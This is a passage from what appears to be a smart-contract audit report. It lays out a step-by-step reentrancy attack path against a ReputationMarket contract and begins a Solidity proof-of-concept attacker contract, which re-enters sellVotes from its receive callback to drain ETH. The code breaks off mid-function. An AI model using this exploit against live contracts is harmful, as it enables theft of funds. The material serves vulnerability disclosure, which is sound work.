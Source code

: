    - The seller's address must be valid.
   - The contract must have sufficient ETH balance.
   - Gas limits must be sufficient for execution.

### Attack Path

1. **Contract Setup:**
   - The attacker deploys the `MarketAttacker` contract and initializes it with the target `ReputationMarket` contract’s address.
   - The attacker calls the `setup()` function, purchasing some initial votes using ETH by invoking the `buyVotes()` function in `ReputationMarket`.
   
2. **Reentrancy Attack:**
   - Upon receiving the ETH transfer from the `sellVotes` function of `ReputationMarket`, the attacker’s `receive()` function is triggered.
   - In the `receive()` function, the attacker checks if the `attackCount` is less than 10 (limiting the number of re-entrancy attempts).
   - If the condition holds true, the attacker increments the `attackCount`, and recursively calls the `sellVotes()` function again, which results in the attacker withdrawing funds multiple times.
   - Each recursive call to `sellVotes` leads to the transfer of ETH to the attacker, but since the state update (decreasing the market funds) happens after the ETH transfer, the attacker is able to repeatedly withdraw funds before the market's balance is updated.

3. **Launching the Attack:**
   - The attacker launches the attack by calling the `attack()` function, which starts the reentrancy loop by invoking `sellVotes()` to trigger the initial transfer of ETH.
   - Each time the `receive()` function is triggered, the attacker calls `sellVotes()` again, thus enabling multiple withdrawals of funds from the market contract without updating the contract's state in between.

4. **Impact on Funds:**
   - The attacker is able to withdraw more ETH than the contract's actual balance because the state (i.e., the market funds) is not updated before the external call (`_sendEth()`), allowing the attacker to drain the contract’s balance.


```solidity
contract MarketAttacker {
    ReputationMarket target;
    uint256 public attackCount;
    uint256 public totalWithdrawn;
    uint256 public profileId;
    
    constructor(address _target) {
        target = ReputationMarket(_target);
    }
    
    // Initialize: Purchase some votes
    function setup() external payable {
        target.buyVotes{value: msg.value}(
            profileId,
            true,    // isPositive
            1,       // minVotesExpected
            10000    // maxSlippageBasisPoints
        );
    }
    
    // Callback function when ETH is received
    receive() external payable {
        if (attackCount < 10) {  // Limit re-entry attempts
            attackCount++;
            // Recurse into sellVotes when receiving funds
            target.sellVotes(
                profileId,
                true,    // isPositive
                1,       // votesToSell
```